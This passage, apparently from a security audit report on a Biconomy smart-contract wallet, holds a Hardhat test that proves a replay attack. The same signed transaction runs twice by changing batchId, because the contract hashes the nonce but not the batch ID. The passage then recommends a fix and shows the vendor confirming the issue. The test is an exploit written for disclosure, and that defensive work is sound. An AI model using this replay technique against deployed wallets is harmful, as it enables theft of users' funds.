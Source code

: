     const transaction: Transaction = {
      to: safeTx.to,
      value: safeTx.value,
      data: safeTx.data,
      operation: safeTx.operation,
      targetTxGas: safeTx.targetTxGas,
    };
    const refundInfo: FeeRefund = {
      baseGas: safeTx.baseGas,
      gasPrice: safeTx.gasPrice,
      tokenGasPriceFactor: safeTx.tokenGasPriceFactor,
      gasToken: safeTx.gasToken,
      refundReceiver: safeTx.refundReceiver,
    };
    
    let signature = "0x";
    signature += data.slice(2);
    
    
    await expect(
      userSCW.connect(accounts[2]).execTransaction(
        transaction,
        0, // batchId
        refundInfo,
        signature
      )
    ).to.emit(userSCW, "ExecutionSuccess");
    
    //contract checks nonces[batchId] but not batchId itself
    //so we can change batchId to the one that have the same nonce
    //this would replay transaction
    await expect(
      userSCW.connect(accounts[2]).execTransaction(
        transaction,
        1, // changed batchId
        refundInfo,
        signature
      )
    ).to.emit(userSCW, "ExecutionSuccess");
    
    //charlie would have 20 tokens after this
    expect(await token.balanceOf(charlie)).to.equal(
      ethers.utils.parseEther("20")
    );
    });

### [](#recommended-mitigation-steps-6)Recommended Mitigation Steps

Add `batchId` to the hash calculation of the transaction in `encodeTransactionData` function.

**[livingrockrises (Biconomy) confirmed](https://github.com/code-423n4/2023-01-biconomy-findings/issues/36#issuecomment-1404370864)**

